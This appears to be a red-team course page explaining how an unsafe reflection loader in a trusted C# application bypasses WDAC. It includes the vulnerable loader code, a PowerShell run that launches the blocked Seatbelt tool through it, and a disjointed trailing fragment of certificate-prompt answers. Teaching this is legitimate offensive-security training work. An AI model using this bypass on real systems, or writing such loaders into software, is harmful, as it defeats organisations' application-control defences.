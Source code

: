 ![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/beacon-signed.exe.png)

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/beacons.png)

# Exploiting Vulnerable Applications

There are many different classes of application vulnerability such as DLL & COM hijacks, overflows, double-freeing, deserialization, and more.  Under the correct conditions, some of these can lead to a WDAC bypass.  WDAC does a good job at ensuring that a trusted app can't load untrusted modules and/or code.  For instance, DLL hijacks don't typically bypass WDAC.  The type of vulnerability that is most likely to result in a WDAC bypass is one where code is executed "inside" the trusted application.

We won't study each vulnerability class - this example shows how an unsafe use of reflection could be abused.  Reflection is a programming paradigm often used in Java and C# to dynamically create an instance of a type at runtime.

Consider the following C#:
```cs
using System.IO;
using System.Reflection;

namespace VulnerableApp;

internal static class Program
{
    public static void Main(string[] args)
    {
        var bytes = File.ReadAllBytes(args[0]);
        var asm = Assembly.Load(bytes);

        asm.EntryPoint.Invoke(null, new object[]
        {
            new string[] { }
        });
    }
}
```

This application takes in a path to a .NET assembly on disk, and reads it as a raw byte array.  It passes those bytes to the `Assembly.Load` method, which loads the assembly into the `AppDomain` of itself.  After the assembly has been loaded, it calls its main entry point.  This works as a WDAC bypass because this trusted application is taking and loading content from an untrusted (user-supplied) location, similar to how a LOLBAS' work.

If, for example, we had `Seatbelt.exe` on the desktop, it can't execute it directly but it can via this app.
```powershell
PS C:\Users\hdoyle> .\Desktop\Seatbelt.exe
Program 'Seatbelt.exe' failed to run: Your organization used Device Guard to block this app.

PS C:\Users\hdoyle> & 'C:\Program Files\VulnerableApp\VulnerableApp.exe' .\Desktop\Seatbelt.exe

                        %&&@@@&&
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((
```

  [Unknown]:  HelpSystems LLC
  [Unknown]:  Hacker Squad
  [Unknown]:  HelpSystems LLC
  [Unknown]:  Eden Prairie
  [Unknown]:  MN
  [Unknown]:  US
  [no]:  yes